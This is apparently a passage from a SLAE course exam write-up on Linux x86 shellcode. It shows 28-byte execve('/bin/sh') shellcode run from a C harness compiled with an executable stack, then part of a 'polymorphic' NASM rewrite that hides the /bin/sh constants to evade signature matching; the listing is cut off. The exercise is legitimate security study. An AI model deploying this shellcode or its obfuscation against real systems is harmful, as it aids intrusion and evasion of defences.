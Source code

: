 ```c
 8048077: 31 c0                 xor    %eax,%eax
 8048079: 40                    inc    %eax
 804807a: cd 80                 int    $0x80



*/

#include <stdio.h>

char shellcode[] = "\x31\xc0\x50\x68\x2f\x2f\x73"
                   "\x68\x68\x2f\x62\x69\x6e\x89"
                   "\xe3\x89\xc1\x89\xc2\xb0\x0b"
                   "\xcd\x80\x31\xc0\x40\xcd\x80";

int main()
{
  fprintf(stdout,"Lenght: %d\n",strlen(shellcode));
  (*(void  (*)()) shellcode)();
}
```

As a POC, the C program is compiled as an executable binary with stack-protection disabled, and executed resulting in a shellcode size of 28 bytes:

```bash
osboxes@osboxes:~/Downloads/SLAE$ gcc execve.c -o execve -z execstack
execve.c: In function 'main':
execve.c:36:33: warning: incompatible implicit declaration of built-in function 'strlen' [enabled by default]
osboxes@osboxes:~/Downloads/SLAE/$ ls
execve  execve.c
osboxes@osboxes:~/Downloads/SLAE$ ./execve 
Lenght: 28
$ 

```

The polymorphic (modified) version of the original shellcode is scripted in Assembly:

```nasm
; Filename: execve_poly.nasm
; Author: h3ll0clar1c3
; Purpose: Spawn a shell on the local host
; Compilation: ./compile.sh execve_poly
; Usage: ./execve_poly
; Shellcode size: 37 bytes
; Architecture: x86

global   _start

section .text
        _start:

        xor edx, edx                    ; initialize register // changed the register value
        push edx                        ; push edx onto the stack // changed the register value
        mov eax, 0x463ED8B7             ; move 0x463ED8B7 into eax // split to add up to original value /bin/sh
        add eax, 0x22345678             ; move 0x22345678 into eax // split to add up to original value /bin/sh
        push eax                        ; push eax onto the stack // added instruction
        mov eax, 0xDEADC0DE             ; move 0xDEADC0DE into eax // split to add up to original value /bin/sh
        sub eax, 0x70445EAF             ; move 0x70445EAF into eax // split to add up to original value /bin/sh
```

[slae-link]: http:/securitytube-training.com/online-courses/securitytube-linux-assembly-expert
[github-code]: https://github.com/h3ll0clar1c3/SLAE/tree/master/Exam/Assignment6
[execve-shellstorm]: http://shell-storm.org/shellcode/files/shellcode-811.php
[reversetcp-shellstorm]: http://shell-storm.org/shellcode/files/shellcode-849.php